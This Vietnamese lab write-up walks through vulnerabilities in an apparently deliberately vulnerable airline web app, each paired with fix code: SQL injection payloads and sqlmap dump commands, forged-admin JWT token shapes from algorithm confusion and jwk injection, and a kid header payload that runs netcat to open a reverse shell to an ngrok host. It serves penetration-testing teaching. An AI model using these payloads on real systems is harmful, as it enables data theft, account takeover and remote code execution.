Do đó payload nên tránh comment tail, thay vào đó dùng kỹ thuật **close context -> inject predicate -> reopen context**.

Repair payload sau phù hợp hơn với sink dạng `LIKE '%<input>%'`:

```text
zzzz%') OR 1=1 OR LOWER('a')=LOWER('
```

Sau khi backend append tiếp phần `"%')`, đoạn cuối được cân bằng thành:

```sql
OR LOWER('a')=LOWER('%%')
```

Với blackbox, không thể biết ngay phải dùng `LOWER('...')`. Có hai cách suy ra:

1. Nếu error leak fragment SQL có `LOWER('%...%')`, chọn `LOWER(...)` để reopen context tự nhiên.
2. Nếu không leak fragment SQL, fuzz một ma trận repair payload:

```text
zzzz%') OR 1=1 OR LOWER('a')=LOWER('
zzzz%') OR 1=1 OR CONCAT('a')=CONCAT('
zzzz%') OR 1=1 OR 'a'='
zzzz%') OR 1=1 OR ('a'='a
```

Payload nào chuyển response từ `NOT_FOUND` sang `SUCCESS` mà không làm mất named params phía sau thì context repair đó đúng.

Boolean confirm:

```text
flightName=zzzz%') OR 1=1 OR LOWER('a')=LOWER('
```

False-control:

```text
flightName=zzzz%') AND 1=2 AND LOWER('a')=LOWER('
```

Expected signal:

| Payload | Kỳ vọng |
|---|---|
| `OR 1=1` | `status=SUCCESS` hoặc có data |
| `AND 1=2` | `status=NOT_FOUND` |
| comment làm mất tail | lỗi Hibernate named parameter, không dùng làm bằng chứng chính |

### 5.2. Blackbox detect DBMS

Sau khi xác định `flightName` injectable, bước tiếp theo là fingerprint DBMS bằng function/syntax đặc trưng. Payload vẫn giữ context repair để phần named parameter phía sau không bị mất.

Mẫu chung:

```text
zzzz%') OR <dbms_probe> OR LOWER('a')=LOWER('
```

Probe theo DBMS:

| DBMS | Probe | Signal nếu đúng |
|---|---|---|
| MySQL/MariaDB | `DATABASE() IS NOT NULL` | Không lỗi function, có thể trả `SUCCESS` |
| MySQL/MariaDB | `IF(1=1,1,0)=1` | `SUCCESS`; false-control `IF(1=2,1,0)=1` trả `NOT_FOUND` |
| MySQL/MariaDB | `IF(DATABASE() IS NOT NULL,SLEEP(1),0)=0` | Response delay so với baseline |
| PostgreSQL | `current_database() IS NOT NULL` | Không lỗi function |
| PostgreSQL | `version() LIKE '%PostgreSQL%'` | `SUCCESS` nếu đúng |
| SQL Server | `DB_NAME() IS NOT NULL` | Không lỗi function |
| SQL Server | `@@VERSION LIKE '%Microsoft%'` | `SUCCESS` nếu đúng |
| Oracle | `SYS_CONTEXT('USERENV','DB_NAME') IS NOT NULL` | Không lỗi function |
| Oracle | `USER IS NOT NULL` | Không lỗi identifier |
| SQLite | `sqlite_version() IS NOT NULL` | Không lỗi function |
| H2 | `DATABASE() IS NOT NULL` hoặc error `Syntax error in SQL statement` | Có thể nhận diện qua error message |

Ví dụ MySQL/MariaDB:

```text
flightName=zzzz%') OR IF(1=1,1,0)=1 OR LOWER('a')=LOWER('
```

False-control:

```text
flightName=zzzz%') OR IF(1=2,1,0)=1 OR LOWER('a')=LOWER('
```

Confirm current database tồn tại:

```text
flightName=zzzz%') OR IF(LENGTH(DATABASE())>0,1,0)=1 OR LOWER('a')=LOWER('
```

Error message cũng giúp fingerprint:

| Error fragment                         | DBMS thường gặp |
| -------------------------------------- | --------------- |
| `You have an error in your SQL syntax` | MySQL/MariaDB   |
| `syntax error at or near`              | PostgreSQL      |
| `Incorrect syntax near`                | SQL Server      |
| `ORA-009xx`                            | Oracle          |
| `Syntax error in SQL statement`        | H2              |

### 5.3. Khai thác error leak mesage để đọc dữ liệu trên Flight

Sau khi detect DBMS là MySQL/MariaDB, có thể dùng các function tạo lỗi có chứa scalar value trong message. Primitive ổn định để test trước:

```text
flightName=zzzz%') OR GTID_SUBSET(CONCAT(0x7e,DATABASE(),0x7e),1) OR LOWER('a')=LOWER('
```

Expected error leak:

```json
{
  "status": "ERROR",
  "message": "Lỗi server: JDBC exception executing SQL ... Malformed GTID set specification '~ktvdb~' ..."
}
```

Nếu `GTID_SUBSET` không dùng được trong DB version hiện tại, thử primitive khác:

```text
flightName=zzzz%') OR EXTRACTVALUE(1,CONCAT(0x7e,DATABASE(),0x7e)) OR LOWER('a')=LOWER('
```

```text
flightName=zzzz%') OR UPDATEXML(1,CONCAT(0x7e,DATABASE(),0x7e),1) OR LOWER('a')=LOWER('
```

Leak tên table theo offset:

```text
flightName=zzzz%') OR GTID_SUBSET(CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() ORDER BY table_name LIMIT 0,1),0x7e),1) OR LOWER('a')=LOWER('
```

Đổi `LIMIT 0,1` thành `LIMIT 1,1`, `LIMIT 2,1`... để enumerate các table tiếp theo.

Leak column của table `user`:

```text
flightName=zzzz%') OR GTID_SUBSET(CONCAT(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='user' ORDER BY ordinal_position LIMIT 0,1),0x7e),1) OR LOWER('a')=LOWER('
```

Leak một row qua field text trong error:

```text
flightName=zzzz%') OR GTID_SUBSET(CONCAT(0x7e,(SELECT CONCAT_WS(0x3a,id,email,role) FROM user ORDER BY id LIMIT 0,1),0x7e),1) OR LOWER('a')=LOWER('
```

Nếu message bị cắt ngắn, leak theo chunk:

```text
flightName=zzzz%') OR GTID_SUBSET(CONCAT(0x7e,SUBSTRING((SELECT CONCAT_WS(0x3a,id,email,role) FROM user ORDER BY id LIMIT 0,1),1,32),0x7e),1) OR LOWER('a')=LOWER('
```

Sau đó đổi range:

```text
SUBSTRING(...,33,32)
SUBSTRING(...,65,32)
SUBSTRING(...,97,32)
```

Có thể sử dụng `sqlmap` để khai thác trong lab:

```bash
python3 sqlmap.py -u "http://localhost:3000/api/v1/flight/conditions?flightName=&dateFrom=2026-07-01&dateTo=2026-07-31&departure=H%C3%A0%20N%E1%BB%99i&arrival=Seoul&pageNum=0&pageSize=10" -p "flightName" --threads=10 --risk=3 --level=5 --dbms="MySQL" --technique="E" --auth-cred="<token>" --auth-type="Bearer" --dump
```

### 5.4. Boolean/content-based SQLi trên Transaction

Payload khai thác qua `flightName`:

```text
flightName=QA%') AND ASCII(SUBSTRING((
SELECT table_name
FROM information_schema.tables
WHERE table_schema = DATABASE()
ORDER BY table_name
LIMIT 0,1),1,1)) < 77 OR LOWER('
```

Cách đọc signal:

| Endpoint                         | TRUE signal                         | FALSE signal                         |
| -------------------------------- | ----------------------------------- | ------------------------------------ |
| `/api/v1/transaction/conditions` | `200 OK` có list transaction        | `400 Bad Request` body `Not found`   |

Khai thác qua `sqlmap`:
```bash
python3 sqlmap.py -u "http://localhost:3000/api/v1/transaction/conditions?flightName=&dateFrom=2025-12-17&dateTo=2026-12-17&status=BOOKED&pageNum=0&pageSize=100" -p "flightName" --threads=10 --risk=3 --level=5 --dbms="MySQL" --technique="B" --auth-cred="<token>" --auth-type="Bearer" --dump
```

***

## 6. Fix guidance đặt cạnh sink

### 6.1. Fix FlightSearchRepositoryImpl

```java
// File: src/main/java/org/example/repository/FlightSearchRepositoryImpl.java
/*
 * FIXED CODE:
 * Replace the concatenated keyword with a named parameter and bind it after
 * createNativeQuery(...). Do not append request input into SQL text.
 */
sql.append("""
        AND (
            LOWER(f.name) LIKE LOWER(CONCAT('%', :keyword, '%'))
            OR LOWER(f.departure_code) LIKE LOWER(CONCAT('%', :keyword, '%'))
            OR LOWER(f.arrival_code) LIKE LOWER(CONCAT('%', :keyword, '%'))
        )
        """);

Query query = entityManager.createNativeQuery(sql.toString(), Flight.class);
query.setParameter("keyword", keyword);
```

### 6.2. Fix TransactionSearchRepositoryImpl

```java
// File: src/main/java/org/example/repository/TransactionSearchRepositoryImpl.java
/*
 * FIXED CODE:
 * Replace the concatenated flightName with a named parameter and bind it after
 * createNativeQuery(...). Keep all user-controlled filters as bound params.
 */
sql.append("""
        AND (
            LOWER(f.name) LIKE LOWER(CONCAT('%', :flightName, '%'))
            OR LOWER(f.departure_code) LIKE LOWER(CONCAT('%', :flightName, '%'))
            OR LOWER(f.arrival_code) LIKE LOWER(CONCAT('%', :flightName, '%'))
        )
        """);

Query query = entityManager.createNativeQuery(sql.toString(), Transaction.class);
query.setParameter("flightName", flightName);
```

### 6.3. Fix error message leak

```java
// File: src/main/java/org/example/controller/FlightController.java
/*
 * FIXED CODE:
 * Do not return e.getMessage() to clients. Keep detailed SQL/DB errors in logs
 * with a request id, and return a generic message to the API caller.
 */
catch (Exception e) {
    String requestId = UUID.randomUUID().toString();
    logger.warn("Flight search failed, requestId={}", requestId, e);
    Map<String, Object> response = new HashMap<>();
    response.put("status", "ERROR");
    response.put("message", "Server Error");
    response.put("requestId", requestId);
    return ResponseEntity.internalServerError().body(response);
}
```

***

## 7. Tổng kết

SQLi trong WebLab hiện có hai flow chính:

1. `FlightSearchRepositoryImpl` nối `keyword` vào native SQL, endpoint public, controller trả lỗi chi tiết nên có **error-based SQLi**.
2. `TransactionSearchRepositoryImpl` nối `flightName` vào native SQL, endpoint cần JWT, response khác nhau giữa có/không có kết quả nên có **boolean/content-based blind SQLi**.
3. Các param khác được bind không cứu được query, vì một đoạn user-controlled string đã nằm trực tiếp trong SQL text.
4. `encodeURIComponent` ở frontend không phải defense; backend vẫn nhận lại giá trị nguy hiểm sau URL decode.
5. Fix đúng là parameterize toàn bộ search keyword/flightName, và không trả DB exception message ra client.

Kết luận phát hiện:

```text
Nếu request param đi vào StringBuilder SQL qua .append(...)
rồi query được chạy bằng createNativeQuery(sql.toString(), Entity.class),
đánh dấu SQL Injection.

Nếu controller trả e.getMessage(), đánh dấu thêm error-based signal.
Nếu response khác nhau theo TRUE/FALSE predicate, đánh dấu boolean/content-based blind SQLi.
```


# JWT Attack

***

## 1. Kết luận nhanh cho JWT

| Hạng mục | Giá trị |
|---|---|
| Module | JWT auth/filter |
| Token issuer | `AuthController.authenticateUser(...)` gọi `JwtUtils.generateJwtToken(...)` |
| Token consumer | `AuthTokenFilter` đọc `Authorization: Bearer <jwt>` |
| Sink chính | `JwtUtils.parseClaims(...)` + `SigningKeyResolverAdapter.resolveSigningKey(...)` |
| Attack 1 | Algorithm Confusion: header `alg=HS*` làm validator dùng HMAC key derived từ RSA public key PEM |
| Attack 2 | Header param `jwk` Injection: token tự nhúng public key và backend tin key đó |
| Attack 3 | Header param `kid` Injection: unknown `kid` đi vào shell command key lookup |
| Impact auth | Forge token cho `sub=email` của user/admin tồn tại, sau đó `UserDetailsServiceImpl` load quyền thật từ DB |
| Impact command | `kid` command side effect có thể xảy ra trong lúc token validation, trước khi auth thành công |
| File quan trọng | `JwtUtils`, `AuthTokenFilter`, `AuthController`, `JwtUtilsTest` |

> **Nhận định:** app phát hành RS256 token hợp lệ, nhưng verification lại cho header JWT quyết định key/algorithm. Đây là lỗi trust boundary: `alg`, `jwk`, `kid` đều nằm trong phần header do client gửi, không được coi là nguồn tin cậy.

***

## 2. Sink -> Source

### 2.1. Fuzz dangerous function để tìm sink candidate

| Nhóm fuzz | Pattern cần tìm | Kết quả trong repo | Ý nghĩa |
|---|---|---|---|
| JWT parser | `parseClaimsJws`, `JwtParserBuilder` | `JwtUtils.parseClaims(...)` | Sink xác thực token |
| Dynamic key resolver | `SigningKeyResolverAdapter`, `resolveSigningKey` | `JwtUtils.parseClaims(...)` | Header quyết định key |
| Header params | `header.getAlgorithm`, `header.get("jwk")`, `header.getKeyId()` | `resolveVerificationKey(...)` | Source attacker-controlled |
| Algorithm confusion | `alg.startsWith("HS")`, `legacyVerificationKey` | `isLegacyHmacAlgorithm(...)` | HS token có verification path riêng |
| Embedded key | `parseRsaPublicJwk(...)` | Header `jwk` được tin | JWK injection |
| Command execution | `ProcessBuilder("/bin/sh", "-c", command)` | `resolveKeyFromKidCommand(...)` | `kid` command injection |

Candidate sink đầu tiên:

```java
// src/main/java/org/example/security/JwtUtils.java
private Jws<Claims> parseClaims(String token) {
    return Jwts.parserBuilder()
            .setSigningKeyResolver(new SigningKeyResolverAdapter() {
                @Override
                public Key resolveSigningKey(JwsHeader header, Claims claims) {
                    return resolveVerificationKey(header); // [SINK ROUTER]
                }
            })
            .requireIssuer(issuer)
            .build()
            .parseClaimsJws(token); // [JWT VERIFY SINK]
}
```

### 2.2. Algorithm Confusion sink -> source

```java
// src/main/java/org/example/security/JwtUtils.java
private Key resolveVerificationKey(JwsHeader header) {
    String algorithm = header.getAlgorithm(); // [SOURCE: attacker-controlled JWT header]
    if (isLegacyHmacAlgorithm(algorithm)) {
        return legacyVerificationKey;         // [CONFUSION SINK]
    }
    ...
}

private boolean isLegacyHmacAlgorithm(String alg) {
    return alg != null && alg.startsWith("HS");
}
```

`legacyVerificationKey` được tạo từ RSA public key PEM:

```java
// src/main/java/org/example/security/JwtUtils.java
this.legacyVerificationKey = Keys.hmacShaKeyFor(
        toPublicKeyPem(publicKey).getBytes(StandardCharsets.US_ASCII));
```

Vấn đề:

| Thành phần                        | Ý nghĩa                                                                   |
| --------------------------------- | ------------------------------------------------------------------------- |
| `alg`                             | Header do attacker gửi, không đáng tin                                    |
| `alg.startsWith("HS")`            | Cho phép chuyển verification family từ RSA asymmetric sang HMAC symmetric |
| `toPublicKeyPem(publicKey)`       | Public key lẽ ra không phải secret                                        |
| HMAC secret derived từ public key | Nếu attacker biết đúng bytes PEM, có thể ký HS256 token                   |

Kết luận sink -> source:

```text
Header alg -> resolveVerificationKey -> legacyVerificationKey từ public key PEM
= Algorithm Confusion.
```

### 2.3. `jwk` header injection sink -> source

```java
// src/main/java/org/example/security/JwtUtils.java
Object embeddedKey = header.get("jwk"); // [SOURCE: attacker-controlled JWT header]
if (embeddedKey instanceof Map<?, ?> jwk) {
    return parseRsaPublicJwk(jwk);       // [TRUSTS ATTACKER KEY]
}
```

JWK parser:

```java
// src/main/java/org/example/security/JwtUtils.java
private PublicKey parseRsaPublicJwk(Map<?, ?> jwk) {
    if (!"RSA".equals(jwk.get("kty"))) {
        throw new IllegalArgumentException("Only RSA JWKs are supported");
    }

    String modulus = (String) jwk.get("n");
    String exponent = (String) jwk.get("e");
    RSAPublicKeySpec keySpec = new RSAPublicKeySpec(
            new BigInteger(1, Base64.getUrlDecoder().decode(modulus)),
            new BigInteger(1, Base64.getUrlDecoder().decode(exponent)));

    return KeyFactory.getInstance("RSA").generatePublic(keySpec);
}
```

Vấn đề:

| Thành phần                             | Ý nghĩa                                                         |
| -------------------------------------- | --------------------------------------------------------------- |
| Header `jwk`                           | Client tự nhúng public key                                      |
| Token signed bằng attacker private key | Signature verify thành công vì backend dùng attacker public key |
| `sub=email`                            | Nếu email tồn tại, `AuthTokenFilter` load user từ DB            |

Kết luận sink -> source:

```text
JWT header jwk -> parseRsaPublicJwk -> verification key
= attacker-supplied trust anchor.
```

### 2.4. `kid` injection sink -> source

```java
// src/main/java/org/example/security/JwtUtils.java
String kid = header.getKeyId(); // [SOURCE: attacker-controlled JWT header]
if (StringUtils.hasText(kid) && !verificationKeys.containsKey(kid)) {
    Key commandLoadedKey = resolveKeyFromKidCommand(kid);
    if (commandLoadedKey != null) {
        return commandLoadedKey;
    }
}

return verificationKeys.getOrDefault(kid, publicKey); // [PERMISSIVE FALLBACK]
```

Command sink:

```java
// src/main/java/org/example/security/JwtUtils.java
private Key resolveKeyFromKidCommand(String kid) {
    String command = kidKeyCommandTemplate.replace("{kid}", kid);

    Process process = new ProcessBuilder("/bin/sh", "-c", command)
            .redirectErrorStream(true)
            .start(); // [COMMAND INJECTION SINK]
    ...
}
```

Default command template:

```properties
app.jwt.kid-key-command-template=${JWT_KID_KEY_COMMAND_TEMPLATE:cat ./jwt-{kid}.pem}
```

Vấn đề:

| Thành phần | Ý nghĩa |
|---|---|
| `kid` | Header do attacker gửi |
| `replace("{kid}", kid)` | Không validate/escape |
| `/bin/sh -c` | Shell metacharacter như `;`, `#`, `&&` có nghĩa đặc biệt |
| Unknown `kid` | Kích hoạt command lookup |
| Fallback `getOrDefault(kid, publicKey)` | Có thể vẫn validate token bằng default key sau command side effect |

Kết luận sink -> source:

```text
JWT header kid -> command template -> /bin/sh -c
= command injection in JWT key lookup.
```

***

## 3. Source -> Sink

### 3.1. Normal issued token source -> verification sink

```java
// src/main/java/org/example/controller/AuthController.java
JwtResponse jwtResponse = new JwtResponse(jwtUtils.generateJwtToken(user.getEmail()),
        user.getId(),
        user.getName(),
        user.getEmail());
```

```java
// src/main/java/org/example/security/JwtUtils.java
return Jwts.builder()
        .setHeaderParam("kid", keyId)
        .setSubject(email)
        .setIssuer(issuer)
        .setIssuedAt(now)
        .setExpiration(new Date(now.getTime() + expirationTimeMs))
        .signWith(privateKey, SignatureAlgorithm.RS256)
        .compact();
```

Normal flow:



### 3.2. `jwk` attack source -> sink



Payload shape:

```json
{
  "header": {
    "alg": "RS256",
    "typ": "JWT",
    "jwk": {
      "kty": "RSA",
      "n": "<attacker-public-modulus-base64url>",
      "e": "AQAB"
    }
  },
  "payload": {
    "sub": "admin@example.com",
    "iss": "ktv-airline",
    "iat": 1710000000,
    "exp": 1890000000
  }
}
```

Signal:

| Điều kiện                                           | Kết quả                                 |
| --------------------------------------------------- | --------------------------------------- |
| `jwk` hợp lệ và token ký bằng private key tương ứng | `validateJwtToken(...)` true            |
| `sub` là email user tồn tại                         | `AuthTokenFilter` set `SecurityContext` |
| `sub` là admin trong DB                             | Có `ROLE_ADMIN`                         |

### 3.3. Algorithm confusion source -> sink



Payload shape:

```json
{
  "header": {
    "alg": "HS256",
    "typ": "JWT"
  },
  "payload": {
    "sub": "admin@example.com",
    "iss": "ktv-airline",
    "iat": 1710000000,
    "exp": 1890000000
  }
}
```

#### 3.3.1. Derive public key từ 2 RS256 token

Nếu attacker có ít nhất 2 JWT hợp lệ được server ký bằng cùng RSA private key, có thể khôi phục RSA public key candidate từ chữ ký RS256. Mục tiêu của bước này không phải lấy private key, mà lấy đúng public key để dùng lại làm HMAC secret trong nhánh HS256 confusion.

Điểm dễ sai khi dùng key đã derive:

| Điểm | Ghi chú |
|---|---|
| Cần ít nhất 2 token | Một chữ ký chỉ cho một bội số của `n`, `gcd` cần tối thiểu hai giá trị |
| `e` thường là `65537` | Nếu token/server dùng exponent khác thì phải thử đúng `e` |
| `key_size` phải đúng | RS256 encoded message phụ thuộc độ dài modulus, thường 2048-bit là `256` bytes |
| JWT signing input | Hash trên đúng chuỗi `base64url(header) + "." + base64url(payload)` |
| PEM bytes | Backend dùng `toPublicKeyPem(publicKey).getBytes(StandardCharsets.US_ASCII)` |
| Format PEM | Cần `-----BEGIN PUBLIC KEY-----`, wrap base64 64 ký tự, `-----END PUBLIC KEY-----`, có newline cuối |

Render PEM phải match cách backend tạo:

```java
// src/main/java/org/example/security/JwtUtils.java
private String toPublicKeyPem(PublicKey key) {
    String encodedKey = Base64.getMimeEncoder(64, "\n".getBytes(StandardCharsets.US_ASCII))
            .encodeToString(key.getEncoded());

    return "-----BEGIN PUBLIC KEY-----\n"
            + encodedKey
            + "\n-----END PUBLIC KEY-----\n";
}
```

Điều kiện quan trọng: secret HS256 phải là đúng bytes PEM mà backend tạo bằng `toPublicKeyPem(publicKey)`, không chỉ là một public key RSA tương đương về mặt toán học. Khác newline/header/base64 wrap là signature fail.

Có thể dùng `portswigger/sig2n` để rã key:
```bash
docker run --rm -it portswigger/sig2n <token1> <token2>
```

Key thực tế được rã từ 2 JWT:
```text
LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUFqOG5DNG5WU0RvUjlFUEVHaHRvTQphT1A0SHVERm95YmNtMzVaUkNSMnM4WUMzY2RldzUwbWsyaklUelN6NkFXOGhUS3pMenJBUUR3ZmhOS3VlekRzCmpiVkgyRXk1UHNGVHV4QzdVR0JwSTAva2x2MWtqVWlKcUpCNlJJaDdEZkIvUmdvMTB1eTdFaXBDdXZEN3hWNksKR0x0akFSMkd6b3J2K3d6UnpQbGw0OWNOS3dlVUhyZU5ZTVFtUlVpSEFHQWxHVW1NRUxSSGc0NWRvR2ExSjQ5cQpkTG0vUVZhKzZVa0hya3IvMjhMYWZRNHFsckEzWFpIRFh0KzRnd0ZJQ0VKTVJzcXByOU84QytUdFdKeGNBY2RYCmpraUtTTUg3U2ZYa05ER1JwY09vbVVBYldoMEx2OG1PQkh2Mko5OURMUStPOHFDRGpnT3l6eDF1NEtxUmc0eWwKaVFJREFRQUIKLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0tCg==
```
### 3.4. `kid` injection source -> sink



Payload shape:

```json
"kid": "; nc -e /bin/sh 0.tcp.ap.ngrok.io <port>; #"
```

Signal:

| Signal                                                 | Ý nghĩa                                                          |
| ------------------------------------------------------ | ---------------------------------------------------------------- |
| netcat listener bắt reverse shell thành công           | `kid` đã đi vào shell command                                    |
| Token không validate nhưng shell vẫn xuất hiện         | Command execution xảy ra trước khi validation fail               |

***

## 4. Auth impact và boundary

JWT trong app không lưu role trong token. Sau khi token hợp lệ, filter lấy subject rồi load user từ DB:

```java
// src/main/java/org/example/security/AuthTokenFilter.java
if (jwt != null && jwtUtils.validateJwtToken(jwt)) {
    String username = jwtUtils.getUserNameFromJwtToken(jwt);

    UserDetails userDetails = userDetailsService.loadUserByUsername(username);
    UsernamePasswordAuthenticationToken authentication =
            new UsernamePasswordAuthenticationToken(
                    userDetails,
                    null,
                    userDetails.getAuthorities());
    SecurityContextHolder.getContext().setAuthentication(authentication);
}
```

```java
// src/main/java/org/example/security/UserDetailsImpl.java
public Collection<? extends GrantedAuthority> getAuthorities() {
    Role resolvedRole = role == null ? Role.USER : role;
    return Collections.singletonList(new SimpleGrantedAuthority("ROLE_" + resolvedRole.name()));
}
```

Implication:

| Trường hợp | Impact |
|---|---|
| Forge token với `sub` không tồn tại | Token có thể verify nhưng filter không set auth thành công |
| Forge token với `sub` user thường | Nhận quyền `ROLE_USER` từ DB |
| Forge token với `sub` admin tồn tại | Nhận quyền `ROLE_ADMIN` từ DB |
| `kid` command injection | Side effect có thể xảy ra ngay cả khi auth cuối cùng fail |

***

## 5. Fix guidance đặt cạnh sink

### 5.1. Fix Algorithm Confusion

```java
// File: src/main/java/org/example/security/JwtUtils.java
/*
 * FIXED CODE:
 * This service issues RS256 tokens only. Do not let the attacker-controlled
 * alg header switch verification to HS256/HS384/HS512.
 */
if (!SignatureAlgorithm.RS256.getValue().equals(header.getAlgorithm())) {
    throw new UnsupportedJwtException("Only RS256 tokens are supported");
}

Key verificationKey = verificationKeys.get(header.getKeyId());
if (verificationKey == null) {
    throw new UnsupportedJwtException("Unknown JWT kid");
}
return verificationKey;
```

Nếu cần legacy HS256 trong migration, dùng secret riêng:

```java
// File: src/main/java/org/example/security/JwtUtils.java
/*
 * FIXED CODE:
 * Use a separate random server-side HMAC secret. Never derive an HMAC secret
 * from an RSA public key, certificate, PEM, JWK, or any public material.
 */
this.legacyVerificationKey = Keys.hmacShaKeyFor(Decoders.BASE64.decode(jwtLegacyHmacSecret));
```

### 5.2. Fix `jwk`/`jku`/`x5u` header injection

```java
// File: src/main/java/org/example/security/JwtUtils.java
/*
 * FIXED CODE:
 * Reject embedded or remote header-supplied verification keys. Use kid only as
 * a selector into a server-controlled key store or pinned JWKS cache.
 */
if (header.containsKey("jwk") || header.containsKey("jku") || header.containsKey("x5u")) {
    throw new UnsupportedJwtException("Embedded JWT verification keys are not accepted");
}
```

### 5.3. Fix `kid` lookup

```java
// File: src/main/java/org/example/security/JwtUtils.java
/*
 * FIXED CODE:
 * Validate kid and resolve it from a server-controlled map. Unknown kid must
 * fail closed; do not shell out.
 */
String kid = header.getKeyId();
if (!StringUtils.hasText(kid) || !kid.matches("^[A-Za-z0-9._-]+$")) {
    throw new UnsupportedJwtException("Invalid JWT kid");
}

Key verificationKey = verificationKeys.get(kid);
if (verificationKey == null) {
    throw new UnsupportedJwtException("Unknown JWT kid");
}
return verificationKey;
```

Nếu key files thật sự cần thiết:

```java
// File: src/main/java/org/example/security/JwtUtils.java
/*
 * FIXED CODE:
 * Resolve files with Path under a fixed directory and read directly. No shell.
 */
Path keyDir = Paths.get("jwt-keys").toAbsolutePath().normalize();
Path keyPath = keyDir.resolve(kid + ".pem").normalize();
if (!keyPath.startsWith(keyDir)) {
    throw new UnsupportedJwtException("Invalid JWT kid path");
}
return parsePublicKey(Files.readString(keyPath, StandardCharsets.US_ASCII));
```

***

## 6. Tổng kết

JWT attack flow trong WebLab gồm ba lỗi cùng gốc: tin header do client điều khiển trong lúc chọn thuật toán và key verify.

1. `alg=HS256` khiến backend dùng HMAC key derived từ RSA public key PEM: **Algorithm Confusion**.
2. Header `jwk` cho phép attacker tự nhúng public key và ký token bằng private key của mình: **JWK header injection**.
3. Header `kid` unknown đi vào command template rồi chạy qua `/bin/sh -c`: **KID command injection**.
4. Auth cuối cùng phụ thuộc `sub=email` có tồn tại trong DB và role thật của user đó.

Kết luận phát hiện:

```text
Nếu JWT verification dùng alg/jwk/kid từ header để chọn algorithm/key
mà không allowlist/fail-closed trên server-side trust store,
đánh dấu JWT header parameter injection hoặc algorithm confusion.

Nếu kid đi vào command string rồi chạy qua shell,
đánh dấu command injection trong JWT key lookup.
```


# Command Injection

***

## 1. Kết luận nhanh cho Blind Command Injection

| Hạng mục                  | Giá trị                                                                                                                     |
| ------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| Số sink command execution | 2 sink                                                                                                                      |
| Sink A - chính            | `JwtUtils.resolveKeyFromKidCommand(kid)`                                                                                    |
| Sink B - hidden chain     | `QRCodeHelper.renderQrCode(qrContent)`                                                                                      |
| Dangerous function sink A | `new ProcessBuilder("/bin/sh", "-c", command).start()`                                                                      |
| Dangerous function sink B | `Runtime.getRuntime().exec(new String[] { "/bin/sh", "-c", command })`                                                      |
